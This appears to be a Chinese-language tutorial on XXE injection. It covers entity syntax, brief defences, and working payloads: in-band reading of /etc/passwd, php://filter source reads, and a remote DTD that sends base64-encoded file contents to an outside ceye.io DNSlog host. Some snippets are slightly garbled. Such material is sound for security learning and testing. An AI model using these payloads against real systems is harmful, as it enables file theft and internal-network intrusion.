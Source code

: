 ## **0x01 XML实体：**
实体(ENTITY)：在xml中可给数据取一个变量名，使用时调用变量名即可。
|     |普通/一般实体 |参数实体   |    
| --- | --- | --- | 
|内部定义 |!ELEMENT 实体名 “文本内容”| %实体名    |     
|外部定义(外部实体) |!ELEMENT 实体名 SYSTEM “外部文件/URL” |%实体名     |     
|引用方式 |&实体名 |%实体名    |     
|使用场合 | XML文档任意处，DTD中也可以    |只能在DTD的元素和属性声明中     |    

一般实体使用例子：
```
POST /api/endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: [实际内容长度]

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE request [
  <!ENTITY name "xxe">
]>
<request>
  <action>get_data</action>
  <parameters>
    <param1>&name;</param1>
    <param2>value2</param2>
  </parameters>
</request>
```

## **0x02 XXE定义：**
XXE发生在应用程序解XML输入时，没有禁止外部实体的加载导致可加载恶意外部文件，造成**文件读取**、内网端口扫描攻击内网网站(SSRF的一种)等。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，可测试站长是否开启了解析外部实体。
^
## **0x03 防范XXE：**
1. 禁用外部实体
2. 过滤关键词
        如：<!DOCTYPE <!ENTITY   
        如：SYSTEM

## **0x04 验证测试XXE：**

抓包，POST数据包里出现application/xml，text/xml，数据格式为xml，考虑是否有XXE。

### 1. 有回显XXE文件读取：
验证：修改POST请求数据包，自定义一个**一般的内部实体**，用内部实体即可验证是否存在XXE。
响应会引用实体，会回显“文本内容”，则验证成功。
```
外部实体注入文件读取：
<!ENTITY b SYSTEM "file///etc/passwd">
xml中引用&b

如：
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchemainstance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
xmlns:urn="urn:examp <soapenv:Body>les:usernameservice">
 <soapenv:Header/>
 <urn:Username 
soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
>
 <username xsi:type="xsd:string">&test;</username>
 </urn:Username>
 </soapenv:Body>
</soapenv:Envelope>
响应有回显&test;的内容，即/etc/password




php伪协议编码读php源代码等文件:
“php//filter/.../index.php”


读java,go代码：
配合参数实体


请求内网：
读内网段是什么
/proc/net/arp
/etc/hosts
/etc/network/interfaces 高权限读
/proc/net/fib_trie
```

### 2.无回显XXE文件读取：
验证：修改请求数据包，自定义一个**外部实体+DNSlog**验证是否存在XXE。
响应会引用实体，请求DNSlog，DNSlog有记录，则验证成功。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，测试是否开启了解析外部实体。
```
无回显用携带进行进行文件读取：

自己服务器上放一个xxe.dtd文件，文件里面定义读文件的实体
该实体的变量作为另一个实体变量的DNSlog的url上参数值
引用，发起请求带出文件读取的内容。
```
xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://2qytvx.ceye.io/?%file;'>">
```
注入点
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [
  <!ENTITY % remote SYSTEM "http://ip/xxe.dtd">
  %remote; %int; %send;
]>
<convert/>
```

^
^
只验证存在的话：
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
        <!ENTITY % remote SYSTEM "2qytvx.ceye.io/xxe_test">
        %remote;
    ]
>
<root/>
```
get请求url最好全编码，而不是只有url路径编码。
<https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE>